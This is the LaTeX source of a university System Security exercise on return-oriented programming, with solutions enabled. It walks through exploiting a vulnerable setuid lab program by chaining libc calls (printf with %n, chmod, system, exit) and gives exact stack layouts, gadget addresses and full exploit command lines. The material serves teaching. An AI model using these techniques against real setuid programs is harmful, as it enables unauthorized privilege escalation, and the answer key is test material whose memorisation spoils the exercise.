% IMPORTANT: add or remove (comment out) the boolean '\solutiontrue' below to
% create the solution document or the exercise document respectively.
% First we create the switch to make either the exercises or the solutions
\newif\ifsolution\solutionfalse
% To create the solution uncomment '\solutiontrue'
\solutiontrue

\documentclass[a4paper,11pt]{article}
\title{System Security,
\ifsolution Solution \else \fi
Return Oriented Programming}

../author.tex

\usepackage[T1]{fontenc}
\usepackage{ae, aecompl}
\usepackage{a4wide}
\usepackage{boxedminipage}
\usepackage{url}
\usepackage{graphicx}
\usepackage{enumerate}
\usepackage{hyperref}
\usepackage{textcomp}
% Some useful commands and environments
\usepackage{framed}
\usepackage{listings}
\usepackage{ucs}
\usepackage[utf8x]{inputenc}
\usepackage[english]{babel}

\author{Andrei Pârvu}

\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}


\begin{document}
\maketitle

\section{Goal}
In this exercise, you will have to chain several libc functions
to execute \texttt{somefile.sh} that you find in your \texttt{rop} folder. 
When you check the permissions of \texttt{somefile.sh}, you will see that it
can only be read/written by its owner (root in this case) --- so the normal user
(syssec) cannot execute it. 

However, the user (syssec), has access to a vulnerable setuid program, which is
\texttt{rop} that he can use to execute \texttt{somefile.sh}. His final goal is
to execute the equivalent of the following unix commands:

\begin{itemize}
\item chmod 700 ./somefile.sh
\item system(./somefile.sh)
\item chmod 600 ./somefile.sh
\end{itemize}

However note that the \textbf{user cannot simply try to get a root shell (as in the
previous exercise) and execute somefile.sh} because the creation of all shells is
being monitored/logged. So he has to resort to executing \texttt{somefile.sh}
without explicitly spawning a shell. More specifically, his goal is to chain
libc-functions that will help him achieve his goal.

\section*{Structure of the Exercise and Advice}
The rest of this exercise is organized in terms of small steps that will allow
you to achieve the above goals.

\begin{itemize}
\item Please \texttt{do not} run your exploits in the folder that is shared
  between your VM and host.
\item Note that this program is slightly different from the older exercise - you
  are allowed only one commandline input and one input at runtime. You have to
  redo you analysis of stack frames before you exploit the new \texttt{rop}
  executable.
\item Do not exploit the input taken at run-time
\item Please run your eventual exploit outside of gdb - otherwise, it will not
  work. Intermediate exploit(s) can be run inside gdb.
\item As mentioned earlier, you cannot simply spawn a root shell and complete
  the exercise - you have to chain libc calls.
\item You are allowed \textbf{at most 2} environment variables for the final
  exploit (in addition to the commandline and runtime inputs)
\item Your exploit has to end without a segmentation fault, but does not have to
give a specific exit code.
\end{itemize}

\section*{Unix File Permissions}
In unix-based file systems, every file has a 9-bit permission string. The highest
three bits are for read, write and execute permissions for the owner.  The middle
three and last three represent similar permissions for the group and others
respectively. Furthermore, there is a 'setuid' permission bit that if set allows
any user to execute the file with the permissions of its owner.

\noindent With respect to \texttt{somefile.sh}, answer the following questions:
\begin{itemize}
\item Who is the owner of \texttt{somefile.sh}?
\ifsolution\begin{solution}
Using the command \texttt{ls -l} we can determine that the owner is \texttt{root}.
\end{solution}\fi

\item Who is allowed to read \texttt{somefile.sh}?
\ifsolution\begin{solution}
Given the permissions of the file, \texttt{- rw- --- ---}, only the owner is allowed to read \texttt{somefile.sh}.
\end{solution}\fi
\item Who is allowed to write \texttt{somefile.sh}?
\ifsolution\begin{solution}
Given the permissions of the file, \texttt{- rw- --- ---}, only the owner is allowed to write \texttt{somefile.sh}.
\end{solution}\fi
\item Who is allowed to execute \texttt{somefile.sh}?
\ifsolution\begin{solution}
Given the permissions of the file, \texttt{- rw- --- ---}, no one can execute \texttt{somefile.sh} (we don't have
any \texttt{x} set).
\end{solution}\fi
\item What is the 32-bit hexadecimal representation of the current permissions
  of \texttt{somefile.sh}?
\ifsolution\begin{solution}
The current permissions are \texttt{- rw- --- ---}, so in hexa is would be \texttt{0x180}.
\end{solution}\fi
\item What is the 32-bit hexadecimal representation for the mode 0700? 
\ifsolution\begin{solution}
It is \texttt{0x1c0}.
\end{solution}\fi
\end{itemize}

\section*{Format String Vulnerabilities}

C library functions like \texttt{printf} and \texttt{scanf} accept format
strings as a first argument and then a set of variable parameters. If the user
can supply the first argument, the execution can have undesired consequences.
For instance, some format strings are especially dangerous because they can be
used to overwrite arbitrary memory locations. The ``\%n" format string is one
such example. 

\noindent Please answer the following questions regarding its use.

\begin{itemize}
\item What is the value of 'i' after the following code executes
\texttt{int i; printf("\%n",\&i);}?
\ifsolution\begin{solution}
The value of 'i' will be $0$, because no characters were printed before the $\%n$ format.
\end{solution}\fi
\item What is the value of 'i' after the following code executes \texttt{int i;
    printf("\%16x\%n",i,\&i);}?
\ifsolution\begin{solution}
The value of 'i' will be $16$, because \texttt{\%16x} adds a padding of 16 characters to the printed value
(and, even though 'i' is initialized, it cannot have more than $16$ hexa digits).
\end{solution}\fi
\end{itemize}

\section*{Chaining Arbitrary Functions}
Assume that cpybuf is a vulnerable function whose buffer can be
overflowed. Consider the following functions: \texttt{void a(\(pa\));} and
\texttt{void b(\(pb1, pb2\));} 

\begin{figure}[t]
    \centering
    
\includegraphics[width=0.8\linewidth]{./stacks.pdf}
    \caption{Potential stack frames for chaining functions \texttt{a} and \texttt{b}.}
    \label{fig:stacks}
\end{figure}

\begin {itemize}
\item Now, if on overflowing cpybuf, one would first like to execute function
\texttt{a} with parameter \texttt{pa}, then function \texttt{b} with
parameters \texttt{pb1} and \texttt{pb2}  and finally \texttt{exit}, does the
stack layout on the left in Figure~\ref{fig:stacks} work? Justify your answer.
\ifsolution\begin{solution}
No, the solution will not work, because the parameter \texttt{pa} is not in the right
memory location (it should be where \texttt{exit} is; but that doesn't solve it, because
neither \texttt{b}'s parameters are in the right memory locations).
\end{solution}\fi

\item Given the stack on the right in Figure~\ref{fig:stacks}, what instructions
  must the placeholder point to in order to make functions \texttt{a} and
  \texttt{b} execute correctly? \textbf{Hint: When function
    \texttt{a} returns, the stack pointer points to the placeholder. Now you have to
    remove the parameter \texttt{pa} and the jump to the next
    location pointed to by the \$esp, which would be \texttt{address of b()}.}
\ifsolution\begin{solution}
We need to do add instructions which will pop the stack, so that $esp$ will point to the address of
\texttt{b}, and then pop again the stack to $eip$ so that the next instruction will be the call to
\texttt{b}. In this case, we cannot use the combination \texttt{leave; ret;}, because \texttt{leave}
changes $esp$ to the stored value of $ebp$ (which is wrong, in this case), so we must use \texttt{pop eax; pop eip;}
\end{solution}\fi

\item Could you find the instructions required in the placeholder anywhere in your program already?
\ifsolution\begin{solution}
Yes, at the end of the \texttt{system} function, starting at \texttt{0xb7e3b016}, has the following instructions:
\texttt{pop ebx; ret;}.
\end{solution}\fi
\end{itemize}
\section*{Simple Libc Chaining}
This is your first task of chaining libc-functions. On doing this successfully,
you will know how to manipulate the stack to chain arbitrary functions. On
examining the source code of \texttt{rop}, you will see that it has a global
variable called 'test'. Your task to exploit \texttt{rop}, overwrite 'test' to
\texttt{0x100} using printf and also print its value using the
\texttt{print\_test} function which is part of \texttt{rop}. In other words,
please chain \texttt{printf}, \texttt{print\_test} and \texttt{exit} to achieve
this. \textbf{You do not have to accomplish this task outside of gdb.}


\noindent Please answer the following questions regarding this task:

\begin{itemize}
\item What is the address of variable 'test'?
\ifsolution\begin{solution}
The address for 'test' is \texttt{0x8049980}, found with the \texttt{print \&test} gdb command.
\end{solution}\fi
\item What \texttt{printf} command will let you overwrite variable 'test'
  appropriately?
\ifsolution\begin{solution}
One could use \texttt{printf("\%256x\%n", test, \&test);}, because \texttt{0x100} is $256$ in base 10.
\end{solution}\fi
\item What instructions do you need to 'fix' the stack after calling
  \texttt{printf} and before calling \texttt{print\_test}? \textbf{Hint: How
    many parameters of \texttt{printf} do you have to remove before jumping to \texttt{print\_test}?}
\ifsolution\begin{solution}
You would have to remove 3 parameters (the ones listed above). One idea to do this is to use the combination
\texttt{pop ebx; ret;} as the return address of printf, who would proceed to jump to the address pointed
by the second parameter of printf. But the second parameter can be anything (it's not important, it just
has to be there), so it can also store the combination \texttt{pop ebx; ret;}, which will skip the third parameter
and jump to the address above it.
\end{solution}\fi
\item When you chain \texttt{printf}, \texttt{print\_test} and \texttt{exit}, what does the stack
  layout look like after you overflow the vulnerable buffer in \texttt{cpybuf}
  but before you return from \texttt{cpybuf}?
\ifsolution\begin{solution}
The stack looks like this:
\begin{lstlisting}
0x08049980 <- address of test
0xb7e2eb50 <- address of exit
0x0804850b <- address of print_test
0x08049980 <- address of test
0xb7e3b016 <- return combination
0x080499a5 <- address of helpstr
0xb7e3b016 <- return combination
0xb7e4a270 <- printf address
0x41414141
0x41414141
0x41414141
0x41414141
0x41414141
0x41414141
0xbffffb80 <- address of parameter to cpybuf
0xbffff948 <- address of local buffer
\end{lstlisting}

\end{solution}\fi
\item What is the final command that you used to successfully run this exploit?
\ifsolution\begin{solution}
The final command is
\textsf{./rop '`./geninput 0xb7e4a270 0xb7e3b016 0x80499a5 0xb7e3b016 0x8049980 0x804850b 0xb7e2eb50 0x8049980`'}

where \texttt{geninput} is a C program which takes the input and adds it after a $24$-byte padding (in order
to correctly overflow the stack buffer). The result of this command can be seen in Figure~\ref{fig:printtest}.

\end{solution}\fi
\end{itemize}

\begin{figure}[H] \center
  
\includegraphics[width=1\linewidth]{pics/print_test.png}
  \caption{\texttt{print\_test} chaining}
  \label{fig:printtest}
\end{figure}

\section*{Final Task: Creating Longer Libc Chains}
Finally, you will now design and run the original exploit to run
\texttt{somefile.sh}. You are allowed to use \textbf{only two environment
  variables} for this task. \textbf{You have to accomplish this task both inside
  and outside of gdb.}.  When you specify the shell file to execute (either to
the program or as an environment variable), please enter ``./somefile.sh'' (and
not just ``somefile.sh''). 

\noindent Please answer the following questions regarding this task:

\begin{itemize}
\item What libc functions would you chain to achieve the equivalent of the three
  commands listed under the goals of this exercise? Please provide your answer as
  a list of function calls with appropriate parameters.
\ifsolution\begin{solution}
The chain of function call should be the following:
\begin{lstlisting}
chmod("./somefile.sh", 448);
system("./somefile.sh");
chmod("./somefile.sh", 384);
exit(0);
\end{lstlisting}
\end{solution}\fi
\item Do these calls work as an exploit? Justify your
  answer. \texttt{Hint: The \texttt{strcpy} function that is used to overflow
    the buffer stops on encountering a \texttt{NULL} byte.}
\ifsolution\begin{solution}
This will not work, because \texttt{strcpy} will stop copying bytes when the string
terminator is reached, \texttt{NULL}. This would happen when the number 448 is added as a
parameter (because the last two bytes are equal to $0$), so nothing more would be copied to the
stack.
\end{solution}\fi
\item What would you do to overcome it? Can you think of some functions to
generate the required values? Please list the
  required function calls with appropriate parameters. \texttt{Hint:
    you have done this already in the exercise if you got this far.}
\ifsolution\begin{solution}
One idea would be to use \texttt{printf} to add the values of $448$ and $384$ to the stack,
in the position where the \texttt{chmod} second parameter would be. The function calls would be:
\begin{lstlisting}
printf("%384x%n%64x%n", somevalue,
                        address_of_second_mode_parameter,
                        somevalue,
                        address_of_first_mode_parameter
      );
chmod("./somefile.sh", first_mode_parameter);
system("./somefile.sh");
chmod("./somefile.sh", second_mode_parameter);
exit(0);
\end{lstlisting}
Note that $384 + 64 = 448$, the value that will be stored in the first mode parameter.
\end{solution}\fi
\item Given that \texttt{rop} takes one commandline input and one input at run-time, where could you put any
  additional inputs that you need? Please specify the exact unix commands that
  you used to do this.
\ifsolution\begin{solution}
The commandline input will be the string which does the buffer overflow, the run-time input will be the name
of the file \texttt{"./somefile.sh"} and an environment variable will retain the format string for printf
\texttt{"\%384x\%n\%64x\%n"}; for this I used \texttt{export INPUT1=\%384x\%n\%64x\%n}.
\end{solution}\fi
\item Please sketch the stack layout that you used with annotations if
necessary.
\ifsolution\begin{solution}
The only small problem that I had was that it was difficult to jump from a call of \texttt{chmod} to the
next function because is had two parameters. In this case, I also used some instructions which were already
at the end of the \texttt{system} function, which did \texttt{sub \$esp, 0x8; pop ebx; ret;}, so I could
skip a total of 4 words. But, in this new case, I had to add an empty word after the last parameter of \texttt{chmod}, so that
2 parameters + return address + empty word equals 4, the number of skipped words on the stack.
The stack looks like this:
\begin{lstlisting}
0xaaaaaaaa <- empty
0xb7e2eb50 <- exit
0xaaaaaaaa <- empty
0xaaaaaaaa <- address of second mode parameter on the stack
0x080499a5 <- helpstr
0xb7e3b010 <- sub esp, 0x8; pop ebx; ret;
0xb7ed9010 <- chmod
0x080499a5 <- helpstr
0xb7e3b016 <- pop ebx; ret;
0xb7e3afe0 <- system
0xaaaaaaaa <- empty
0xaaaaaaaa <- first_mode_parameter
0x080499a5 <- helpstr
0xb7e3b010 <- sub esp, 0x8; pop ebx; ret;
0xb7ed9010 <- chmod
0xbffff958 <- address of first mode parameter on the stack
0xb7e3b016 <- pop ebx; ret;
0xbffff978 <- address of second mode parameter on the stack
0xb7e3b016 <- pop ebx; ret;
0xbffffec7 <- address of environment variable INPUT1
0xb7e3b016 <- pop ebx; ret;
0xb7e4a270 <- printf
0x41414141
0x41414141
0x41414141
0x41414141
0x41414141
0x41414141
0xbffffb54 <- address of parameter to cpybuf
0xbffff918 <- address of local buffer

\end{lstlisting}

The $esp$ is currently at \texttt{0xbffff910}, so one can verify that the addresses of the chmod
parameters are good.

\end{solution}\fi
\item What is the final exploit string that you used to accomplish this task?
\ifsolution\begin{solution}
The final exploit command is \textsf{./rop '`./geninput 0xb7e4a270 0xb7e3b016 0xbffffec7 0xb7e3b016 0xbffff978 0xb7e3b016 0xbffff958 0xb7ed9010 0xb7e3b010 0x80499a5 0xaaaaaaaa 0xaaaaaaaa 0xb7e3afe0 0xb7e3b016 0x80499a5 0xb7ed9010 0xb7e3b010 0x80499a5 0xaaaaaaaa 0xaaaaaaaa 0xb7e2eb50 0xaaaaaaaa`'} and the results can be seen in Figure~\ref{fig:exploit}.
\end{solution}\fi
\end{itemize}

\begin{figure}[H] \center
  
\includegraphics[width=1.1\linewidth]{pics/rop.png}
  \caption{Final Exploit}
  \label{fig:exploit}
\end{figure}

\end{document}

